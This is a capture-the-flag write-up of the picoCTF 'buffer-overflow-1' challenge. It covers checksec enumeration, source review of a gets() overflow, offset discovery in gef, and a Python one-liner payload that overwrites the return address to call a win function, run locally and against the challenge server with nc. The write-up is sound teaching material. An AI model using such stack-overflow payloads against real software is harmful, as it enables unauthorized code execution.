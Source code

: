 # buffer-overflow-1

## Description

Control the return address

## Enumeration

As always, lets start with some basic file enumeration:

```bash
$ file ./vuln  
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=685b06b911b19065f27c2d369c18ed09fbadb543, for GNU/Linux 3.2.0, not stripped
```

The artifact is 32-bit and does not have Position Independent Executable (PIE) enabled. It is dynamically linked to libc and contains symbols.

Let's examine the artifact's security features using pwntools:

```bash
$ pwn checksec vuln                                            
[*] '/buffer-overflow-1/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```

There are virtually no security features enabled on this application, which means the possibilities are nearly endless!

## Code Review

We're given the source code `vuln.c`. Looking at `main`:

```c
int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

We see there is a functional call to `vuln`:

```c
void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}
```

The `vuln` function contains a `gets` call, which reveals our buffer overflow vulnerability. Now that we've identified it, we need to decide how to exploit it. Fortunately, there's a function named `win`:

```c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}
```

The `win` function loads the flag into memory and prints it to stdout. To call this function, we need to overwrite the return address with the address of `win`.

## Exploit Development

First, lets determine the offset from the return pointer:

```bash
gef➤  disass vuln
Dump of assembler code for function vuln:
   0x08049281 <+0>:     endbr32
   0x08049285 <+4>:     push   ebp
   0x08049286 <+5>:     mov    ebp,esp
   0x08049288 <+7>:     push   ebx
   0x08049289 <+8>:     sub    esp,0x24
   0x0804928c <+11>:    call   0x8049130 <__x86.get_pc_thunk.bx>
   0x08049291 <+16>:    add    ebx,0x2d6f
   0x08049297 <+22>:    sub    esp,0xc
   0x0804929a <+25>:    lea    eax,[ebp-0x28]
   0x0804929d <+28>:    push   eax
   0x0804929e <+29>:    call   0x8049050 <gets@plt>
   0x080492a3 <+34>:    add    esp,0x10
   0x080492a6 <+37>:    call   0x804933e <get_return_address>
   0x080492ab <+42>:    sub    esp,0x8
   0x080492ae <+45>:    push   eax
   0x080492af <+46>:    lea    eax,[ebx-0x1f9c]
   0x080492b5 <+52>:    push   eax
   0x080492b6 <+53>:    call   0x8049040 <printf@plt>
   0x080492bb <+58>:    add    esp,0x10
   0x080492be <+61>:    nop
   0x080492bf <+62>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x080492c2 <+65>:    leave
   0x080492c3 <+66>:    ret
gef➤  b *0x080492c3
Breakpoint 1 at 0x80492c3
gef➤  pattern create 128
[+] Generating a pattern of 128 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab
[+] Saved as '$_gef0'
gef➤  pattern offset $esp
[+] Searching for '6c616161'/'6161616c' with period=4
[+] Found at offset 44 (little-endian search) likely
```

The offset to the return pointer is 44 bytes.

Next, we need an address to jump to. We can find this by printing the symbols of the artifact using `nm`:

```bash
$ nm ./vuln | grep "win"
080491f6 T win
```

We can craft a payload using a Python3 one-liner:

```bash
python3 -c 'import sys;sys.stdout.buffer.write(b"A" * 44 + b"\x08\x04\x91\xf6")'
```

However, there is a problem with this payload: we didn’t account for endianness. From the [Enumeration](#enumeration), we know that this artifact is little-endian. If you're unfamiliar with endianness, you can refer to my [HTB: jeeves](https://github.com/k00l-beanz/k00l-beanz/tree/main/hackthebox/challenges/pwn/jeeves) writeup for more details. In short, we need to reverse the bytes of the address:

```bash
#############################################
# Local
python3 -c 'import sys;sys.stdout.buffer.write(b"A" * 44 + b"\xf6\x91\x04\x08")' | ./vuln
#############################################
# Remote
python3 -c 'import sys;sys.stdout.buffer.write(b"A" * 44 + b"\xf6\x91\x04\x08" + b"\n")' | nc saturn.picoctf.net 53259
```

Which pwns the challenge.